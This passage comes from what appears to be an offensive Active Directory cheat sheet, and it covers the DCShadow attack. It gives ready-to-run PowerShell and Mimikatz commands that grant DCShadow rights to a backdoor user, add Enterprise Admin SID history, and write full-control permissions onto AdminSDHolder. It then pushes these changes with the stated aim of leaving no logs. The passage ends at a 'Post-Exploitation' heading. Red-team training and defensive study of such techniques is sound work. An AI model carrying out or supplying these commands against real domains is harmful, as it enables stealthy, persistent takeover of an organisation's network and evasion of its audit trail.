 PowerShell

#### DCShadow <a href="#dcshadow" id="dcshadow"></a>

DCShadow is an attack that masks certain actions by temporarily imitating a Domain Controller. If you have Domain Admin or Enterprise Admin privileges in a root domain, it can be used for forest-level persistence.

Optionally, as Domain Admin, give a chosen user the privileges required for the DCShadow attack (uses `Set-DCShadowPermissions.ps1` cmdlet).

```powershell
Set-DCShadowPermissions -FakeDC BackdoorMachine -SamAccountName TargetUser -Username BackdoorUser -Verbose
```

PowerShell

Then, from any machine, use Mimikatz to stage the DCShadow attack.

```
# Set SPN for user
lsadump::dcshadow /object:TargetUser /attribute:servicePrincipalName /value:"SuperHacker/ServicePrincipalThingey"

# Set SID History for user (effectively granting them Enterprise Admin rights)
lsadump::dcshadow /object:TargetUser /attribute:SIDHistory /value:S-1-5-21-280534878-1496970234-700767426-519

# Set Full Control permissions on AdminSDHolder container for user
## Requires retrieval of current ACL:
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=targetdomain,DC=com")).psbase.ObjectSecurity.sddl

## Then get target user SID:
Get-NetUser -UserName BackdoorUser | select objectsid

## Finally, add full control primitive (A;;CCDCLCSWRPWPLOCRRCWDWO;;;[SID]) for user
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=targetdomain,DC=com /attribute:ntSecurityDescriptor /value:O:DAG:DAD:PAI(A;;LCRPLORC;;;AU)[...currentACL...](A;;CCDCLCSWRPWPLOCRRCWDWO;;;[[S-1-5-21-1874506631-3219952063-538504511-45109]])
```

Plaintext

Finally, from either a DA session OR a session as the user provided with the DCShadow permissions before, run the DCShadow attack. Actions staged previously will be performed without leaving any logs 😈

```
lsadump::dcshadow /push
```

Plaintext

### Post-Exploitation <a href="#post-exploitation" id="post-exploitation"></a>

